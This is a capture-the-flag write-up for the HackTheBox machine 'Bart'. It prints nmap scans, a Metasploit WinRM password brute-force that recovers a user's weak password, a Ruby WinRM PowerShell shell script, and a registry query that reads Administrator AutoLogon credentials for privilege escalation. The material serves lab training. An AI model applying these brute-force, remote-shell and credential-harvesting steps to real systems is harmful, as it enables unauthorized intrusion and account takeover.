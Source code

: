 ```yaml
---
layout: post
title: HackTheBox - Bart Writeup
tags: [hackthebox]
---
```

This writeup is from a few months ago. I've currently been super busy with OSCE and whatnot. Overall this wasn't too bad of a box and I learned a new WinRM trick in the process. 


## Enumeration

Start with a quick nmap scan and also a full scan once the quick one is completed.

```
root@kali:~/htb/bart# nmap -sV 10.10.10.81

Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.81
Host is up (0.071s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

root@kali:~/htb/bart# nmap -p- 10.10.10.81 -T4

Starting Nmap 7.60 ( https://nmap.org ) 
Nmap scan report for 10.10.10.81
Host is up (0.073s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 98.49 seconds
```

Only two ports to work with, port 5985 is for WinRM so hopefully we'll be able to leverage that if we find some credentials.

If we check out the web server in a browser we get a 302 response, however we can see the virtual host name in the Location header.

![302](bart-302.png)

If we add an entry in our /etc/hosts file for that domain name and IP we are able to browse the site.

Scrolling down on the page we find some possible users to target.

![team](bart-team.png)

Even more interesting is if we check the source code of the page we see another user named Harvey, who's been commented out.

![source](bart-source.png)

The user's email addresses in the mailto field is probably going to reflect their username on the system if it exists. So we have:

```
s.brown@bart.local
d.simmons@bart.htb
r.hilton@bart.htb
h.potter@bart.htb
```

To help brute force WinRM we can use the metasploit module `auxiliary/scanner/winrm/winrm_login`.

We'll start with h.potter since he's listed as a developer, so there's a good chance he has credentials on the box.

```
msf > use auxiliary/scanner/winrm/winrm_login
msf auxiliary(scanner/winrm/winrm_login) > show options

Module options (auxiliary/scanner/winrm/winrm_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             5985             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   URI               /wsman           yes       The URI of the WinRM service
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.81
RHOSTS => 10.10.10.81
msf auxiliary(scanner/winrm/winrm_login) > set USERNAME h.potter
USERNAME => h.potter

msf auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/wordlists/fasttrack.txt
PASS_FILE => /usr/share/wordlists/fasttrack.txt
 
msf auxiliary(scanner/winrm/winrm_login) > set DOMAIN BART.HTB
DOMAIN => BART.HTB
msf auxiliary(scanner/winrm/winrm_login) > run
~~~
~~~
~~~
[+] 10.10.10.81:5985 - Login Successful: BART.HTB\h.potter:Password1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Yes! We can see that Mr. Potter has some weak credentials. Trying to use another metasploit module leveraging these credentials to get code execution we are unsuccessful and are just presented with 500 errors in response. This is due to metasploit's winrm modules not currently supporting encryption. By default WinRM requires encryption, unless specifically disabled by the Administrator.

So to aid us we can use the Ruby winrm package.

<https://github.com/WinRb/WinRM>

We can easily install and configure a script similar to the example shown on the readme.

```
root@kali:~/htb/bart# gem install -r winrm
```

Ruby script contents:

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.81:5985/wsman',
  user: 'BART.HTB\h.potter',
  password: 'Password1',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

```
root@kali:~/htb/bart# ruby winrm_shell.rb 
PS > whoami
bart\h.potter
PS > hostname
BART
```

We are in!

## Privilege Escalation

There are a lot of things to get wrapped up in and lost for privilege escalation here, but keeping it simple and following a methodology checking simple things first allows us to easily escalate here.

```powershell
PS > Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"

DefaultDomainName DefaultUserName DefaultPassword                 
----------------- --------------- ---------------                 
DESKTOP-7I3S68E   Administrator   3130438f31186fbaf962f407711faddb
```

And we can see that the Administrator's credentials were configured in the AutoLogon registry settings.

So now all we have to do is edit our winrm_shell.rb and add in the Administrator credentials in place of h.potter's.

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.81:5985/wsman',
  user: 'BART.HTB\Administrator',
  password: '3130438f31186fbaf962f407711faddb',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

```
root@kali:~/htb/bart# ruby winrm_shell.rb 
PS > whoami
bart\administrator
```

